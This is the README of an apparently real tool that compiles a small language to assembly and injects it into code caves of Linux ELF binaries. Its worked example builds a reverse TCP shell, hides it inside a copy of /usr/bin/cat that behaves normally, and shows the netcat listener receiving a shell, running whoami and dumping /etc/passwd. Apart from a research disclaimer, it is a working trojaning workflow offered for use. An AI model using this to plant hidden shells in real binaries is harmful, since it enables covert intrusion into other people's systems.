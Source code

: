 # Makka Pakka
Makka pakka is a programming language which transpiles into Intel assembly.
Makka pakka programs are specifically written to be embedded within a target
linux binary (ELF file). The language contains a submodule which autmatically
injects the compiled code into a
[code cave](https://en.wikipedia.org/wiki/Code_cave) of the target program.

To learn more, please visit the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).

## Disclaimer
This project was created purely for research purposes. You do not have
permission to use this program for malicious code injection.

## Installation
__Makka Pakka only works on Linux. Trying to run it on other operating systems will not work.__

Makka pakka is distributed as a package on [PyPi](https://pypi.org/project/MakkaPakka).

To install, use pip:
``` bash
pip install MakkaPakka
```

You should then have access to three commands: mkpk, mkpk-transpile, elf-caver.

Test them out!
``` bash
mkpk --help
Usage: mkpk [OPTIONS] MKPK_FILEPATH TARGET_BINARY

Options:
-o, --output-file TEXT  The filepath to output the injected binary to.
-n, --patch-entrypoint  Patches the entrypoint to point to injected code.
-e, --patch-exit        Patches the process exit to point to the injected
                        code.
-v, --verbose           Logs a verbose output to stdout.
--help                  Show this message and exit.
```

``` bash
mkpk-transpile --help
Usage: mkpk-transpile [OPTIONS] MKPK_FILEPATH

Options:
-o, --output TEXT  The filepath to output the transpiled makka pakka code to.
--help             Show this message and exit.
```

``` bash
elf-caver --help
Usage: elf-caver [OPTIONS]

Options:
-a, --asm-file TEXT     The filepath of the .asm file to inject.  [required]
-t, --target-file TEXT  The filepath of the binary to inject into.
                        [required]
-o, --output-file TEXT  The filepath to output the injected binary to.
                        [required]
-n, --patch-entrypoint  (Optional) Patches the entrypoint to point to
                        injected code.
-e, --patch-exit        (Optional) Patches the process exit to point to the
                        injected code.
--help
```

## Example
Creating a Makka Pakka program file:

----- reverse_tcp.mkpk -----
```
!link stdlib/network.mkpk
!link stdlib/syscall.mkpk
!link stdlib/execve.mkpk

[[data]]
exit_msg: "Connection Terminated"
# 5555 in little endian.
port: 0xb315
# 127.0.0.1 in little endian.
addr: 0x0100007f

[[code]]
[main]
> socket
> connect "addr" "port"
> dup2
> bin_sh
> sys_write "exit_msg" 22
> sys_exit
```

Compiling the Makka Pakka program into /usr/bin/cat:
```
mkpk reverse_tcp.mkpk /usr/bin/cat -e -o cat_inject
Injecting assembly from cat_inject.asm into cat_inject.
Injected file output to cat_inject.mkpk reverse_tcp.mkpk
```

Setting up a listener on localhost:5555:
```
nc -l localhost 5555
```

Then run the injected cat binary, it looks inconspicuous! but...
```
./cat_inject --help
Usage: ./cat_inject [OPTION]... [FILE]...
Concatenate FILE(s) to standard output.

With no FILE, or when FILE is -, read standard input.

  -A, --show-all           equivalent to -vET
  -b, --number-nonblank    number nonempty output lines, overrides -n
  -e                       equivalent to -vE
  -E, --show-ends          display $ at end of each line
  -n, --number             number all output lines
  -s, --squeeze-blank      suppress repeated empty output lines
  -t                       equivalent to -vT
  -T, --show-tabs          display TAB characters as ^I
  -u                       (ignored)
  -v, --show-nonprinting   use ^ and M- notation, except for LFD and TAB
      --help     display this help and exit
      --version  output version information and exit

Examples:
  ./cat_inject f - g  Output f's contents, then standard input, then g's contents.
  ./cat_inject        Copy standard input to standard output.

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Report any translation bugs to <https://translationproject.org/team/>
Full documentation <https://www.gnu.org/software/coreutils/cat>
or available locally via: info '(coreutils) cat invocation'
```

Now the netcat listener has a remote TCP shell!
```
nc -l localhost 5555
whoami
alex
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:113::/nonexistent:/usr/sbin/nologin
alex:x:1000:1000:,,,:/home/alex:/bin/bash
```
## Development Installation
If you wish to contribute to Makka Pakka, then these are the instruction for
downloading the source and setting up the dev environment

Prerequisite installs:
- Python 3.10+
- Netwide Assembler (NASM)

Clone the git repository and configure the environment.
``` bash
cd <your directory>
git clone https://github.com/PandasAreBears/MakkaPakka
```
``` bash
cd MakkaPakka
source configure.sh
```

At this point you can use Makka Pakka from within this directory.
``` bash
python3 mkpk.py --help
```

For more examples, or a more detailed technical explaination, please check
out the
[documentation page](https://lemon-bush-0f7dfc410.2.azurestaticapps.net/).
